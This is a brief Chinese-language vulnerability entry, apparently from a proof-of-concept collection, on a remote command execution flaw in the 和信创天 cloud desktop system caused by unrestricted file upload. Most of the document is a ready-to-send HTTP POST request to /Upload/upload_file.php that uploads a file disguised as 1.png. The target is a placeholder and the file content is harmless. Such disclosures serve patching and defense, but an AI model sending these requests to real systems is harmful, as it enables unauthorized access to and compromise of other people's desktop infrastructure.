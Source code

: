 # 和信创天云桌面系统 远程命令执行 RCE漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

> [!NOTE]
>
> 和信创天云桌面系统

## 漏洞复现

请求包如下

```
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 164

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/avif

1
------WebKitFormBoundaryfcKRltGv--
```

